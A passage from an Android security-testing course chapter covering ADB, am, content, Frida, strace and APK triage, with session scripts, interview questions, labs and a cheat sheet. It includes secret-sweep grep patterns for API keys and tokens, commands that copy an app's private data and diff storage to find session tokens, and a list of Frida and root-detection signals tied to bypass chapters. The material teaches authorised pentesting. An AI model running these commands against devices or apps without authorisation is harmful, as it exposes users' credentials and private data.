> `START_ANY_ACTIVITY`-adjacent privileges on many builds. Never conclude "this component is
> reachable by an attacker" from the fact that `am start` worked. Always confirm with a real
> third-party test app running as a normal UID. See
> [30-Activities](../30-Activities/README.md).

---

## 5. Security Perspective

### How attackers abuse these commands

The commands themselves are not the vulnerability; the *reachability* they demonstrate is. But
several have direct offensive relevance:

- **ADB over TCP left enabled** (`adb tcpip 5555`) is a full compromise of the device by anyone on
  the same network. It appears in the wild on developer devices, on Android-based kiosks, on smart
  TVs, and on IoT devices shipped with debugging on. Worms that scan for port 5555 and install
  cryptominers have been documented publicly.
- **`am`, `content` and `service` are what a malicious app does through the SDK.** Every `am start`
  you run by hand corresponds to a `startActivity()` call a malicious app can make. The command line
  is a convenient proxy for "what can another app on this device do to my target".
- **`run-as`** turns a `debuggable` flag into full read/write of an app's private data. This is why
  `android:debuggable="true"` in a production build is a serious finding rather than a hygiene note.
- **`adb backup`** (where still supported) extracts app data without root if `allowBackup` is true.

### How developers create the exposure

The developer mistakes that these commands reveal are consistent:

| Mistake | Command that reveals it | Chapter |
|---|---|---|
| `android:debuggable="true"` shipped | `dumpsys package <pkg> \| grep -i flags` | [32](../32-Manifest/README.md) |
| `allowBackup="true"` with sensitive data | `dumpsys package <pkg>` then `adb backup` | [33](../33-Storage/README.md) |
| Components exported unintentionally | `dumpsys package <pkg>` exported flags | [32](../32-Manifest/README.md) |
| Secrets in logs | `logcat --pid=$(pidof -s <pkg>)` | [33](../33-Storage/README.md) |
| Cleartext traffic permitted | `aapt2 dump xmltree` + network config | [44](../44-NetworkSecurityConfig/README.md) |
| Provider readable by any app | `content query --uri ...` | [27](../27-ContentProviders/README.md) |
| Localhost service listening | `netstat -tulpn` | [24](../24-IPC/README.md) |

### OWASP mapping

| Command area | MASVS control area |
|---|---|
| Storage sweep (`run-as`, `find`, `sqlite3`) | MASVS-STORAGE |
| Crypto inspection (Frida JCA hooks) | MASVS-CRYPTO |
| Auth/session testing | MASVS-AUTH |
| Proxy, CA install, pinning | MASVS-NETWORK |
| Manifest and component audit | MASVS-PLATFORM |
| Obfuscation, root/tamper checks | MASVS-RESILIENCE |
| Log and secret sweep | MASVS-CODE |

### Forensic relevance

An examiner uses almost the same commands with a different objective and a much stricter discipline
about order of volatility. The critical difference is that a forensic examiner **must not** run
anything that writes: no `pm clear`, no `content insert`, no `am force-stop` before memory is
captured, and every command is logged with its output hashed. If you ever work an incident, adopt
that discipline: capture volatile state (`ps`, `/proc/<pid>/maps`, memory, network) before touching
the filesystem, and never install anything on the device before you have imaged it.

---

## 6. Reverse Engineering Perspective

Commands leave traces that you will meet from the other direction when reversing.

**Detecting that these tools are in use** is exactly what the hardening chapters cover. An app can
observe:

- `/proc/self/status` `TracerPid` being non-zero (a debugger or Frida attached)
- `/proc/self/maps` containing `frida`, `gum`, `gadget`, or a library path under `/data/local/tmp`
- Thread names such as `gmain`, `gum-js-loop`, `pool-frida`
- The `frida-server` default port 27042 being open
- `Settings.Global.ADB_ENABLED` being 1
- `ro.debuggable` being 1, or its own `ApplicationInfo.FLAG_DEBUGGABLE` being set
- Its own `sourceDir` hash not matching the expected value (repackaging detection)

Each of those is a detection you will need to defeat, and each is covered with a bypass in
[37-RootDetection](../37-RootDetection/README.md) and
[38-TamperDetection](../38-TamperDetection/README.md).

**In Smali**, the calls behind these detections are recognisable. A root check that shells out looks
like this:

```smali
# Runtime.getRuntime().exec("su")
invoke-static {}, Ljava/lang/Runtime;->getRuntime()Ljava/lang/Runtime;
move-result-object v0
const-string v1, "su"
invoke-virtual {v0, v1}, Ljava/lang/Runtime;->exec(Ljava/lang/String;)Ljava/lang/Process;
move-result-object v2
```

A file-existence check looks like this:

```smali
new-instance v0, Ljava/io/File;
const-string v1, "/system/xbin/su"
invoke-direct {v0, v1}, Ljava/io/File;-><init>(Ljava/lang/String;)V
invoke-virtual {v0}, Ljava/io/File;->exists()Z
move-result v2
```

When you see either pattern, `strings` on the DEX or a JADX search for `"su"`, `"magisk"`,
`"test-keys"`, or `"/system/xbin"` will find every instance in seconds.

---

## 7. Dynamic Analysis

### The standard session opening

This is the sequence to run at the start of every dynamic session. Put it in a script.

```bash
#!/usr/bin/env bash
# host — open a dynamic analysis session against a target package
set -euo pipefail
PKG="${1:?usage: session.sh <package>}"

adb wait-for-device
echo "== Device =="
adb shell getprop ro.build.fingerprint
adb shell getprop ro.build.version.sdk
adb shell getprop ro.build.version.security_patch
adb shell getprop ro.product.cpu.abi

echo "== Package =="
adb shell pm path "$PKG"
adb shell dumpsys package "$PKG" | sed -n '1,120p'

echo "== Start frida-server =="
adb shell "su -c 'pgrep frida-server >/dev/null || (/data/local/tmp/frida-server &)'" || true
sleep 1
frida-ps -U | head -5

echo "== Clear log and launch =="
adb logcat -c
adb shell monkey -p "$PKG" -c android.intent.category.LAUNCHER 1
sleep 2
adb shell dumpsys window | grep -i mCurrentFocus
```

### Frida one-liners worth memorising

```javascript
// Frida REPL — list every loaded class matching a term
Java.perform(function () {
  Java.enumerateLoadedClasses({
    onMatch: function (n) { if (n.indexOf("crypt") !== -1) console.log(n); },
    onComplete: function () {}
  });
});
```

```javascript
// Frida REPL — print a Java stack trace from anywhere
Java.perform(function () {
  console.log(Java.use("android.util.Log")
    .getStackTraceString(Java.use("java.lang.Exception").$new()));
});
```

```javascript
// Frida REPL — list loaded native modules
Process.enumerateModules().forEach(function (m) {
  console.log(m.base + "  " + m.size + "  " + m.name);
});
```

```javascript
// Frida REPL — dump memory at an address
console.log(hexdump(ptr("0x7f00000000"), { length: 128, ansi: true }));
```

See [53-Frida](../53-Frida/README.md) for the full treatment, and `scripts/` in this folder for
complete, runnable versions.

### Tracing syscalls

```bash
# adb shell as root — trace file access by the target
strace -f -e trace=openat,open,stat,access,readlink -p $(pidof -s com.example.target)
```

```bash
# adb shell as root — trace everything to a file, then analyse offline
strace -f -ff -o /data/local/tmp/tr -p $(pidof -s com.example.target)
```

`strace` is how you find a native root check that Java-level hooking missed: if the process calls
`stat("/system/xbin/su")`, you will see it here regardless of how well the calling code is obfuscated.

---

## 8. Static Analysis

### The triage sweep

Run this against any APK before you do anything else. It takes under a minute and tells you what kind
of engagement you are in.

```bash
#!/usr/bin/env bash
# host — 60-second APK triage
set -euo pipefail
APK="${1:?usage: triage.sh <apk>}"
OUT="$(basename "$APK" .apk)-triage"
mkdir -p "$OUT"

echo "== Identity =="
sha256sum "$APK"
aapt2 dump badging "$APK" | grep -E "^(package|sdkVersion|targetSdkVersion|application-label|uses-permission)"

echo "== Signature =="
apksigner verify -v --print-certs "$APK" || true

echo "== Contents =="
unzip -l "$APK" | tail -n +4 | sort -k1 -n -r | head -30

echo "== Native libraries =="
unzip -l "$APK" | grep -E "lib/.*\.so" || echo "  (none — pure managed app)"

echo "== Decoding =="
apktool d -f "$APK" -o "$OUT/apktool" >/dev/null

echo "== Exported components =="
grep -oE '<(activity|service|receiver|provider)[^>]*android:exported="true"[^>]*>' \
  "$OUT/apktool/AndroidManifest.xml" || echo "  (none declared explicitly)"

echo "== Network security config =="
find "$OUT/apktool/res" -name "network_security_config*.xml" -exec cat {} \; 2>/dev/null \
  || echo "  (none)"

echo "== Secret sweep =="
grep -rhoE '(https?://[A-Za-z0-9._~:/?#@!$&()*+,;=%-]+)' "$OUT/apktool/smali"* 2>/dev/null \
  | sort -u | head -40
grep -rhoE 'AIza[0-9A-Za-z_-]{35}' "$OUT/apktool" 2>/dev/null | sort -u
grep -rhoE 'AKIA[0-9A-Z]{16}' "$OUT/apktool" 2>/dev/null | sort -u
grep -rhoE 'eyJ[A-Za-z0-9_-]{10,}\.[A-Za-z0-9_-]{10,}\.[A-Za-z0-9_-]{10,}' "$OUT/apktool" 2>/dev/null | sort -u

echo "== Risky API usage =="
for p in addJavascriptInterface setJavaScriptEnabled setAllowUniversalAccessFromFileURLs \
         checkServerTrusted HostnameVerifier SecretKeySpec IvParameterSpec \
         DexClassLoader Runtime.getRuntime MODE_WORLD_READABLE; do
  n=$(grep -rl "$p" "$OUT/apktool/smali"* 2>/dev/null | wc -l)
  printf "  %-40s %s file(s)\n" "$p" "$n"
done

echo "Done. Output in $OUT/"
```

A full version of this with better parsing lives in [`scripts/apk-triage.sh`](scripts/apk-triage.sh).

### Grep patterns that pay for themselves

| Pattern | What it finds |
|---|---|
| `AIza[0-9A-Za-z_-]{35}` | Google API key |
| `AKIA[0-9A-Z]{16}` | AWS access key ID |
| `eyJ[A-Za-z0-9_-]+\.[A-Za-z0-9_-]+\.` | JWT |
| `-----BEGIN .* PRIVATE KEY-----` | Embedded private key |
| `sk_live_[0-9a-zA-Z]{24}` | Stripe live secret key |
| `xox[baprs]-[0-9A-Za-z-]+` | Slack token |
| `https?://[a-z0-9.-]*\.firebaseio\.com` | Firebase database URL |
| `s3[.-][a-z0-9-]*\.amazonaws\.com` | S3 bucket |
| `http://` | Cleartext endpoint |
| `\b(?:\d{1,3}\.){3}\d{1,3}\b` | Hardcoded IP |
| `(password\|passwd\|secret\|apikey\|api_key\|token)\s*[=:]` | Credential-shaped assignment |

> **⚠️ Warning**
> Every one of these produces false positives. A `AIza...` string may be a public Firebase Web API
> key, which is *designed* to be public and is not a finding on its own — the finding would be the
> Firebase security rules behind it. Reporting raw grep output as findings is the fastest way to lose
> a client's trust. Validate before you report. See
> [52-StaticAnalysis](../52-StaticAnalysis/README.md).

---

## 9. Examples

### Simple — identify what is running and pull it

```bash
# host
adb shell dumpsys window | grep mCurrentFocus
# mCurrentFocus=Window{... u0 com.example.target/com.example.target.MainActivity}

adb shell pm path com.example.target
# package:/data/app/~~AbC.../com.example.target-XyZ.../base.apk

adb pull /data/app/~~AbC.../com.example.target-XyZ.../base.apk target.apk
```

### Intermediate — enumerate and exercise the exported surface

```bash
# host — list exported activities from a live device
adb shell dumpsys package com.example.target \
  | awk '/^ *Activity Resolver Table/,/^ *Service Resolver Table/' \
  | grep -oE 'com\.example\.target/[A-Za-z0-9._$]+'
```

```bash
# adb shell — try each one and watch for crashes or unexpected screens
am start -n com.example.target/.DebugActivity
am start -a android.intent.action.VIEW -d "exampleapp://reset?token=AAAA"
am broadcast -a com.example.target.ACTION_LOGOUT
content query --uri content://com.example.target.provider/users
```

### Advanced — capture every intent the app sends

```javascript
// frida -U -f com.example.target -l intent-logger.js
// Logs every startActivity call with the full Intent contents.
Java.perform(function () {
  var Activity = Java.use("android.app.Activity");
  var Intent = Java.use("android.content.Intent");

  function describe(intent) {
    var parts = [];
    parts.push("action=" + intent.getAction());
    var d = intent.getData();
    parts.push("data=" + (d ? d.toString() : "null"));
    var c = intent.getComponent();
    parts.push("component=" + (c ? c.flattenToString() : "null"));
    parts.push("flags=0x" + intent.getFlags().toString(16));
    var ex = intent.getExtras();
    if (ex !== null) {
      var keys = ex.keySet().toArray();
      for (var i = 0; i < keys.length; i++) {
        var k = keys[i].toString();
        var v = ex.get(k);
        parts.push("extra[" + k + "]=" + (v === null ? "null" : v.toString()));
      }
    }
    return parts.join("\n    ");
  }

  Activity.startActivity.overload("android.content.Intent").implementation = function (i) {
    console.log("[startActivity]\n    " + describe(i));
    return this.startActivity(i);
  };

  Activity.startActivityForResult
    .overload("android.content.Intent", "int").implementation = function (i, r) {
      console.log("[startActivityForResult req=" + r + "]\n    " + describe(i));
      return this.startActivityForResult(i, r);
    };
});
```

### Real application — a storage sweep

```bash
# adb shell as root — snapshot, exercise the app, snapshot again, diff
PKG=com.example.target
tar czf /sdcard/before.tgz -C /data/data/$PKG . 2>/dev/null
# ... now log in through the UI, then come back ...
tar czf /sdcard/after.tgz -C /data/data/$PKG . 2>/dev/null
```

```bash
# host
adb pull /sdcard/before.tgz && adb pull /sdcard/after.tgz
mkdir -p b a && tar xzf before.tgz -C b && tar xzf after.tgz -C a
diff -rq b a
# then inspect every changed file
find a -name '*.xml' -exec sh -c 'echo "--- $1"; cat "$1"' _ {} \;
find a -name '*.db' -exec sh -c 'echo "--- $1"; sqlite3 "$1" ".tables"' _ {} \;
```

Everything written during login is now in front of you, which is how you find the session token in
SharedPreferences in about ninety seconds.

### Enterprise — scripted, repeatable, evidence-producing

In an enterprise engagement you will test many builds of the same app. Make the whole flow one
command that produces a timestamped evidence directory:

```bash
#!/usr/bin/env bash
# host — evidence-producing engagement run
set -euo pipefail
PKG="$1"; APK="$2"
STAMP=$(date +%Y%m%d-%H%M%S)
EV="evidence/$PKG/$STAMP"
mkdir -p "$EV"

sha256sum "$APK" | tee "$EV/apk.sha256"
apksigner verify -v --print-certs "$APK" > "$EV/signature.txt" 2>&1 || true
aapt2 dump badging "$APK" > "$EV/badging.txt"
adb shell getprop > "$EV/device-props.txt"
adb install -r -g "$APK" | tee "$EV/install.log"
adb shell dumpsys package "$PKG" > "$EV/dumpsys-package.txt"
adb logcat -c
( adb logcat -v threadtime > "$EV/logcat.txt" & echo $! > "$EV/logcat.pid" )
echo "Recording. Exercise the app, then: kill \$(cat $EV/logcat.pid)"
```

> **🧠 Mental Model**
> The difference between a hobbyist and a professional is not the commands they know. It is that the
> professional's session is reproducible: a colleague can re-run the script, get the same artefacts,
> and verify the finding. Write the script.

---

## 10. Common Interview Questions

### Beginner

**Q: What is the difference between `adb shell` and a root shell?**
`adb shell` gives you a shell as the `shell` user, UID 2000. It is an ordinary Linux user with a set
of extra group memberships and framework privileges that Android grants to developers. A root shell
is UID 0. `shell` cannot read `/data/data/<pkg>` for an arbitrary app; root can — subject to SELinux,
which still applies to root.

**Q: Why does `adb root` fail on my phone?**
Because it is a `user` build. `adbd` only honours the root request on `userdebug` and `eng` builds,
where `ro.debuggable` is 1. On a production device you get root through Magisk instead, and then use
`su` inside a normal `adb shell`.

**Q: What does `pm path` do?**
It asks `PackageManagerService` for the on-disk location of a package's APK files. For a split APK
install it returns several paths.

### Intermediate

**Q: You run `am start -n com.bank/.AdminActivity` and it launches, but the activity is not exported.
Is that a vulnerability?**
No — or at least, not from that evidence. The `shell` user holds privileges an ordinary app does not.
You must confirm reachability from a normal third-party UID, either by writing a small test app that
calls `startActivity()` or by using a tool that runs as an ordinary app. This distinction is the most
common false positive in junior Android reports.

**Q: What is the difference between `adb forward` and `adb reverse`?**
`adb forward` opens a listening port on your **host** and tunnels connections to a port on the
**device** — used to reach `frida-server`. `adb reverse` opens a listening port on the **device** and
tunnels to your **host** — used to point the device's traffic at a proxy running on your laptop
without any network route between them.

**Q: How do you get an app's private data with no root?**
If the app is `debuggable`, `run-as <pkg>` gives you a shell with that app's UID. If
`allowBackup="true"` and the platform still supports it, `adb backup` works. Otherwise you need root,
or you patch the APK to set `debuggable="true"` and re-sign it — which changes the signature and may
trip tamper detection.

### Senior

**Q: Walk me through what happens between typing `am start -n a/b` and the activity appearing.**
Expect the full chain: `am` → `cmd activity` → `servicemanager` lookup → Binder `shellCommand`
transaction carrying the argv and the stdio file descriptors → `ActivityManagerShellCommand` parses
argv into an `Intent` → `startActivityAsUser` performs the caller-UID permission and export checks →
`ActivityTaskManagerService`/`ActivityStarter` resolves the component and applies launch mode and task
rules → a Binder callback into the target process → `ActivityThread` instantiates the Activity and
drives its lifecycle. Mention that the FD passing over Binder is why output reaches your terminal.

**Q: An app ignores `settings put global http_proxy`. Give me four reasons and how you would confirm
each.**
(1) It uses OkHttp with an explicit `Proxy.NO_PROXY` or a custom `ProxySelector` — confirm by hooking
`OkHttpClient$Builder.proxy` or searching the DEX. (2) It uses Cronet or a native stack that does not
consult the system proxy — confirm by `strace`/`netstat` showing direct connections. (3) It pins
certificates so the connection fails and the app silently falls back or retries — confirm from logcat
and from a `tcpdump` showing a TLS alert. (4) It is not using HTTP at all — confirm with `tcpdump`.
The general answer is: drop to packet capture, because the proxy is an application-level convention
and packet capture is not.

**Q: How would you verify a `dumpsys` finding is real and not an artefact of your privileged shell?**
Reproduce it from an unprivileged context: write a minimal third-party app, or use a tool that runs
as a normal app UID, and confirm the same access. Record both the privileged and unprivileged results
in the report.

### Staff Engineer

**Q: Design a repeatable engagement harness for testing 40 builds of the same app per quarter.**
Expect: a containerised toolchain pinned by version; a device pool (physical and emulated) addressed
by serial; a scripted pipeline that installs, captures device and APK identity with hashes, runs the
static triage, launches with a standard Frida agent set, exercises a scripted UI path, captures
logcat/PCAP/storage snapshots, and emits a structured findings file; diffing against the previous
build's artefacts so that only *changes* need human attention; and a policy for handling findings
that appear only on certain OS versions.

**Q: Where do these command-line tools' privilege checks actually happen, and why does that matter
for your threat model?**
In `system_server`, against the calling UID obtained from `Binder.getCallingUid()`. It matters because
the check is not in the tool — the tool is untrusted and replaceable. This is the same reason a
client-side check in an app is worthless: the enforcement must live on the side of the trust boundary
that the attacker does not control.

### Principal Engineer

**Q: Android keeps tightening what `shell` can do. Argue both sides.**
The security case: `shell` is reachable through ADB, and ADB is reachable through a compromised
workstation, a malicious USB host, or an enabled TCP listener; a broad `shell` privilege set turns any
of those into device compromise, and `shell` privileges have historically been a step in real exploit
chains. The cost case: every restriction pushes researchers and developers toward rooting, custom
images, or repackaging, all of which change the artefact under test and reduce fidelity; and defenders
lose diagnostic capability on production devices. Resolution: privilege should be scoped to explicit,
revocable, user-visible grants rather than a single monolithic `shell` identity — which is broadly the
direction Android has taken with wireless debugging pairing and per-capability restrictions.

**Q: If you could add one capability to the Android platform for security testers, what and why?**
A strong answer proposes something that improves testability without weakening the production security
model — for example, a per-app, user-consented, attested "assessment mode" that permits instrumentation
of a single application while marking the resulting attestation as non-production, so that the app's
own server can distinguish a test session from a real one. Discuss the abuse cases and the mitigations.

---

## 11. Common Mistakes

### Developer mistakes

- Shipping `android:debuggable="true"`, which hands `run-as` to anyone with USB access.
- Leaving `setWebContentsDebuggingEnabled(true)` in release, exposing the WebView to `chrome://inspect`.
- Leaving `adb_enabled` / wireless debugging on in a kiosk or embedded deployment.
- Assuming `Log.d` is compiled out of release builds. It is not, unless ProGuard/R8 is configured with
  `-assumenosideeffects` **and** optimization is enabled.
- Treating `shell`-reachable as equivalent to attacker-reachable, and therefore dismissing a real
  finding — the inverse of the pentester's error below.

### Pentester mistakes

- **Reporting `shell`-only access as an app vulnerability.** The single most common junior error.
  Always reproduce from an unprivileged app.
- Running `pm clear` or `content delete` on a target and destroying the state that demonstrated the
  finding.
- Version-mismatching `frida` and `frida-server` and then blaming the device.
- Signing before aligning, then chasing a phantom signature error.
- Using `adb tcpip` on a conference or client network.
- Pasting raw grep output into a report without validating each hit.
- Testing on an emulator, finding that a control does not trigger, and concluding it is absent — when
  in fact the app disabled the feature because it detected the emulator.
- Forgetting to record `ro.build.version.security_patch` and the exact build fingerprint, then being
  unable to say which platform the finding applies to.

### Reverse engineer mistakes

- Trusting `apktool`'s decoded manifest without cross-checking `aapt2 dump xmltree`. A crafted APK can
  make the two disagree, and `PackageManager` follows neither of your tools.
- Assuming a `.so` file listed in the APK is actually loaded. Check `/proc/<pid>/maps` at runtime.
- Reading `strings` output and concluding a string is used, when it is dead code kept alive only by an
  over-broad ProGuard keep rule.
- Attaching Frida after the interesting code has already run. Use `-f` to spawn, not `-n` to attach,
  when the target is initialisation logic.

---

## 12. Hands-on Labs

Full lab material lives in [`labs/`](labs/).

| Lab | Objective | Difficulty |
|---|---|---|
| [Lab 01 — Device reconnaissance](labs/lab-01-device-recon.md) | Produce a complete device profile using only `adb` and `getprop`, and explain what each value means for a test | Beginner |
| [Lab 02 — Manifest audit from a live device](labs/lab-02-live-manifest-audit.md) | Reconstruct an app's component and permission surface from `dumpsys` alone, with no APK | Intermediate |
| [Lab 03 — The exported-surface sweep](labs/lab-03-exported-sweep.md) | Enumerate and exercise every exported component of a target with `am` and `content`, then prove which are genuinely attacker-reachable | Intermediate |
| [Lab 04 — Storage diff](labs/lab-04-storage-diff.md) | Capture before/after snapshots of an app's data directory across a login and locate the credential material | Intermediate |
| [Lab 05 — CTF: One command, one flag](labs/lab-05-ctf-one-command.md) | A series of challenges, each solvable with a single well-chosen command | Advanced |

**Assignment.** Build your own `session.sh` and `triage.sh`. Do not copy the ones in this chapter —
write them, break them, and fix them. The scripts you write yourself are the ones you will remember
under time pressure in front of a client.

---

## 13. Summary

### Key points

- Every command is a client to a subsystem. Knowing which subsystem tells you what the command can
  do and how it will fail.
- `adb shell` runs as UID 2000 (`shell`), not root, and not as an app. Privileges granted to `shell`
  are **not** available to an attacking app — this distinction decides whether your finding is real.
- `dumpsys package <pkg>` is most of a manifest audit from a live device.
- `am` with the extras table is how you exercise an app's exported surface by hand, without any tool.
- `content query`/`call` is how you test providers, including the projection and sort-order injection
  points that automated tools frequently miss.
- `service call` lets you invoke any Binder method by transaction code when nothing else works.
- Align before you sign. Always.
- Match `frida` and `frida-server` versions. Always.
- `fastboot` operates outside Android entirely and will destroy a device if you are careless.
- Validate every grep hit before it becomes a finding.

### Mind map



### Condensed cheat sheet

| Need | Command |
|---|---|
| What screen am I on | `adb shell dumpsys window \| grep mCurrentFocus` |
| Where is the APK | `adb shell pm path <pkg>` |
| Full package record | `adb shell dumpsys package <pkg>` |
| Only this app's logs | `adb logcat --pid=$(adb shell pidof -s <pkg>)` |
| Launch a component | `adb shell am start -n <pkg>/<cls> --es k v` |
| Fire a deep link | `adb shell am start -a android.intent.action.VIEW -d "<uri>"` |
| Query a provider | `adb shell content query --uri content://<auth>/<path>` |
| Read app data (debuggable) | `adb shell run-as <pkg> sh -c 'tar czf - .' > d.tgz` |
| Device-wide proxy | `adb shell settings put global http_proxy <ip>:<port>` |
| Who signed this | `apksigner verify -v --print-certs app.apk` |
| Rebuild an APK | `apktool b w/ -o p.apk && zipalign -p -f 4 p.apk a.apk && apksigner sign --ks k a.apk` |
| Spawn under Frida | `frida -U -f <pkg> -l script.js` |
| Trace file access | `strace -f -e trace=openat,stat,access -p $(pidof -s <pkg>)` |
| Listening sockets | `adb shell netstat -tulpn` |

### Quick revision

- Which UID does `adb shell` run as, and why does it matter?
- What is the difference between `adb forward` and `adb reverse`?
- Which single command gives you an app's exported components on a live device?
- What are the extras flags for a String, an int, and a boolean in `am start`?
- Which two provider parameters are injection points that tools often miss?
- What must happen before signing, and what happens if you get the order wrong?
- Name three ways an app can detect that Frida is attached.
- Why is `fastboot boot` safer than `fastboot flash`?

---

## 14. References

### AOSP source

- `packages/modules/adb/` — the ADB daemon and wire protocol
- `frameworks/base/cmds/` — `am`, `pm`, `content`, `bootanimation` and friends
- `frameworks/native/cmds/cmd/` — the generic `cmd` shell-command bridge
- `frameworks/native/cmds/dumpsys/` — `dumpsys`
- `frameworks/native/cmds/servicemanager/` — service registration and lookup
- `system/logging/logcat/` — logcat and the log buffers
- `frameworks/base/services/core/java/com/android/server/am/` — ActivityManagerService
- `frameworks/base/services/core/java/com/android/server/pm/` — PackageManagerService
- Android Code Search: https://cs.android.com/

### Official documentation

- Android Debug Bridge — https://developer.android.com/tools/adb
- `adb shell` command reference — https://developer.android.com/tools/adb#shellcommands
- Logcat — https://developer.android.com/tools/logcat
- `apksigner` — https://developer.android.com/tools/apksigner
- `zipalign` — https://developer.android.com/tools/zipalign
- `aapt2` — https://developer.android.com/tools/aapt2
- Fastboot and flashing — https://source.android.com/docs/setup/test/running
- Wireless debugging — https://developer.android.com/tools/adb#wireless-android11-command-line

### OWASP

- OWASP MASVS — https://mas.owasp.org/MASVS/
- OWASP MASTG — https://mas.owasp.org/MASTG/
- MASTG "Android Basic Security Testing" chapter — tooling setup and the equivalent command set

### Tooling

- Frida — https://frida.re/docs/android/
- Objection — https://github.com/sensepost/objection
- apktool — https://apktool.org/
- jadx — https://github.com/skylot/jadx
- Magisk — https://topjohnwu.github.io/Magisk/

### Related chapters

- [60-ADB](../60-ADB/README.md) — the ADB protocol in depth
- [61-Fastboot](../61-Fastboot/README.md) — bootloader and partitions
- [53-Frida](../53-Frida/README.md) — Frida internals
- [54-Objection](../54-Objection/README.md) — what Objection automates
- [51-DynamicAnalysis](../51-DynamicAnalysis/README.md) — the methodology these commands serve
- [52-StaticAnalysis](../52-StaticAnalysis/README.md) — validating what the sweep finds
- [76-CheatSheets](../76-CheatSheets/README.md) — the condensed printable versions
